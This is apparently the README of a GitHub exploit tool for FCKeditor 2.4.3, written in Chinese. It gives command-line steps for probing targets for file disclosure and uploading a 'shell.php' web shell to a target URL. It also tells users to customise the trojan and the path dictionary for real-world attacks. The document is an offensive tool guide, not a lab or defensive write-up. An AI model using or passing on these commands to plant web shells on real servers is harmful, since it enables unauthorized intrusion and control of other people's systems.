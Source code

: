 # FCKeditor-2.4.3-exp

1.查看帮助

python fck2.4.3_upload.py -h

![image](https://user-images.githubusercontent.com/75511051/143763800-c5523c3c-d39d-4a6c-a0c8-f5dd0ede4507.png)

2.探测fck2.4.3是否存在文件泄露

python fck2.4.3_upload.py --check-file fck.txt

![image](https://user-images.githubusercontent.com/75511051/143763834-44eef2d7-8595-471e-b050-160f7b0bac49.png)

3.fck2.4.3文件上传

python fck2.4.3_upload.py -u http://127.0.0.1 shell.php

![image](https://user-images.githubusercontent.com/75511051/143763862-9ce7cf50-5b07-4128-82c1-f94c9b5ab675.png)

4.修改木马

可以根据自己的实战环境而定，需要什么的木马，进行修改

![image](https://user-images.githubusercontent.com/75511051/143763883-d01bd8af-80e9-4598-8513-e11064709416.png)

5.修改路径字典

可以根据自己的实战路径进行修改

![image](https://user-images.githubusercontent.com/75511051/143763908-d4ac1114-ddd0-4d1d-9208-71f4f27afbe5.png)


